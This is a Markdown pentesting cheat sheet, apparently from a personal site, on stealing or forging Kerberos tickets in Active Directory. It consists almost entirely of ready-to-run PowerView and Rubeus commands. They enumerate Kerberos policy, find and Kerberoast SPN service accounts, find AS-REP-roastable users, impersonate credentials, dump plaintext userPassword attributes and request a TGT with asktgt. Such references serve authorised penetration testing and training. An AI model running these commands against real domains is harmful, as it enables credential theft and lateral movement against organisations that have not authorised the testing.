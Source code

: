 ```yaml
---
layout: post
title: TA0006 Credentials Access - Steal or Forge Kerberos Tickets
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-15
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PREREQ: WHICH OS ? WHAT CREDS ?](#PREREQ:WHICHOSWHATCREDS)
* [ENUM: KRB DOMAIN POLICIES](#ENUM:KRBDOMAINPOLICIES)
* [ENUM: TARGETS](#ENUM:TARGETS)
	* [Kerberoasting](#Kerberoasting)
	* [AS-REPoasting](#AS-REPoasting)
	* [User Accounts Status](#UserAccountsStatus)
* [KERBEROS ASKTGT](#KERBEROSASKTGT)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PREREQ:WHICHOSWHATCREDS'></a>PRE-REQUISITES

### WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### Rubeus Compilation 
```powershell

```

## <a name='ENUM:KRBDOMAINPOLICIES'></a>ENUM: KRB DOMAIN POLICIES
```powershell
Get-NetDomainController

# enumerate the current domain controller policy
$DCPolicy = Get-DomainPolicy -Policy <DC>
$DCPolicy.PrivilegeRights # user privilege rights on the dc...

# enumerate the current domain policy
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets
$DomainPolicy.SystemAccess # password age/etc.

# get the domain policy settings for the passwords: history, complexicity, lockout, clear-text
(Get-DomainPolicy)."system access"
```

## <a name='ENUM:TARGETS'></a>ENUM: TARGETS

### <a name='Kerberoasting'></a>Kerberoasting
```powershell
# find all users with an SPN set (likely service accounts)
Get-DomainUser -SPN | select name, description, lastlogon, badpwdcount, logoncount, useraccountcontrol, memberof

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# Kerberoast any users in a particular OU with SPNs set
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=<Domain>,DC=local"
```

### <a name='AS-REPoasting'></a>AS-REPoasting
```powershell
# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```


### <a name='UserAccountsStatus'></a>User Accounts Status
```powershell
# get all users with passwords changed > 1 year ago, returning sam account names and password last set times
$Date = (Get-Date).AddYears(-1).ToFileTime()
Get-DomainUser -LDAPFilter "(pwdlastset<=$Date)" -Properties samaccountname,pwdlastset,useraccountcontrol

# get the last password set of each user in the current domain
Get-UserProperty -Properties pwdlastset

# all users that require smart card authentication
Get-DomainUser -LDAPFilter "(useraccountcontrol:1.2.840.113556.1.4.803:=262144)"
Get-DomainUser -UACFilter SMARTCARD_REQUIRED

# all users that *don't* require smart card authentication, only returning sam account names
Get-DomainUser -LDAPFilter "(!useraccountcontrol:1.2.840.113556.1.4.803:=262144)" -Properties samaccountname
Get-DomainUser -UACFilter NOT_SMARTCARD_REQUIRED -Properties samaccountname

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```

## <a name='KERBEROSASKTGT'></a>KERBEROS ASKTGT 
```powershell
# Path on VM Mandiant Commando
PS C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug > ./Rubeus.exe asktgt /user:admin /password:Password01 /domain:contoso /dc:DC01.contoso.corp
```
